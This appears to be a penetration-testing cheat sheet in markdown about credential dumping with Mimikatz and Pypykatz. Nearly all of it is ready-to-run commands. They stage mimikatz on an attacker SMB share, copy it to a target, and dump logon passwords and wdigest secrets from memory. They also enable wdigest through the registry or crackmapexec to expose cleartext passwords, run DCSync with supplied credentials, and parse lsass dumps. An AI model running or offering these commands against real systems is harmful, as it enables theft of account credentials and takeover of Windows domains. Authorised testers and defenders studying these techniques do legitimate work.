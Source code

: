 # Mimikatz

## Mimikatz

### Locate

```bash
$ locate mimikatz.exe
/usr/share/windows-resources/mimikatz/Win32/mimikatz.exe
/usr/share/windows-resources/mimikatz/x64/mimikatz.exe
```

### Host mimikatz

```bash
cd /usr/share/windows-resources/mimikatz/
impacket-smbserver share $(pwd) -smb2support
```

### Copy to Target

Copy to Target - x86

```cmd
xcopy \\<Kali IP>\share\Win32\mimikatz.exe C:\Temp\mimikatz\
```

Copy to Target - x64

```cmd
xcopy \\<Kali IP>\share\x64\mimikatz.exe C:\Temp\mimikatz\
```

### Get all available creds

```cmd
cd C:\Temp\mimikatz\
C:\Temp\mimikatz\mimikatz.exe "privilege::debug" "log sekurlsa.log" "sekurlsa::logonpasswords" exit
```

Only `wdigest`

```cmd
cd C:\Temp\mimikatz\
C:\Temp\mimikatz\mimikatz.exe "privilege::debug" "log sekurlsa.log" "sekurlsa::wdigest" exit
```

### Enabling wgigest

```bash
crackmapexec smb <Target_IP> -u '<username>' -p '<password>' -M wdigest -o ACTION=enable
```

OR

```cmd
reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```

### runas

```cmd
runas /noprofile /user:<DOMAIN>\<USER> C:\Temp\mimikatz\mimikatz.exe
```

OR

```powershell
$SecPassword = ConvertTo-SecureString '<PWD>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<DOMAIN>\<USER>', $SecPassword)
Start-Process C:\Temp\mimikatz\mimikatz.exe -Credential $Cred -ArgumentList '"lsadump::dcsync /user:<DOMAIN>\<TARGET_USER>"'
```

## Pypykatz

Get secrets from memory dump

```bash
pypykatz lsa minidump --grep lsass.DMP
```

## Links

- [wdigest](https://www.hackingarticles.in/credential-dumping-wdigest/)
- [-wdigest-exploration](https://www.jimmwayans.com/mimikatz-exploration-wdigest/)